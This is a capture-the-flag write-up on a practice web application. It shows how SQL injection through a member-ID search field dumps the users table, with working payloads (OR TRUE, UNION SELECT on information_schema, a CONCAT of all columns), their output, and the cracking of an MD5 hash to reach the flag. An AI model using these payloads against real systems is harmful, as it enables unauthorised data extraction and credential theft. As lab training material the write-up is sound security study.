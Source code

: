 # SQL injection on members table

## How we found the breach

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

### Legit search

First of all trying searching for a userID of `1` results:

Input:

```sql
1
```

Output:

```txt
ID: 1
First name: one
Surname : me
```

We can see that the server returns two user fields.

### Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:

```sql
SELECT * FROM users
```

Output:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server show us the raw MariaDB error, we see that our query has been added to a prebuilt one.
The prebuilt query should look like something:

```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

### Condition injection

To be able to retrieve to whole users table entry we need to create a SQL query that has a WHERE clause always evaluating to `TRUE`. We achieve this result by adding a `OR TRUE` condition.

Input:

```sql
1 OR TRUE
```

Resulting on the server as:

```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE
```

Output:

```
ID: 1 OR TRUE 
First name: one
Surname : me

ID: 1 OR TRUE 
First name: two
Surname : me

ID: 1 OR TRUE 
First name: three
Surname : me

ID: 1 OR TRUE 
First name: Flag
Surname : GetThe
```

There are four users in the users table. The last one looks quite suspicious.

### UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As a first SQL query is build using our input. By using the UNION SELECT attack we could build a new query over the first one.

We want to discard all results of the first SELECT and only keep those of our own SELECT. For that we make sure the WHERE clause of the first SELECT always evaluates to `FALSE`.

Input:

```sql
-1 UNION SELECT * FROM users
```

As a serial integer is never negative, no user can have an id that is `-1`.

Output:
```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more than the initial sql query, that returned 2 columns, due to selecting all fields with `*`.

### Finding all tables columns name

Our goal is to retrieve all the `users` table columns names to be able to gather them using the `UNION SELECT` injection.
To do so we will be using the default database `information_schema.columns` information.

Input:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:

```
<!-- OTHER DATABASE INFORMATION -->

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

### Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve all the users entry columns value within on column, as the initial query returns only 2 columns.

Input:

```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users
```

Output:

```sql
ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

#### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` contained in the `countersign` users table column that leads to `FortyTwo`.

Hashing using sha256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to exploit the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanation.md)

## How to avoid the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanation.md)
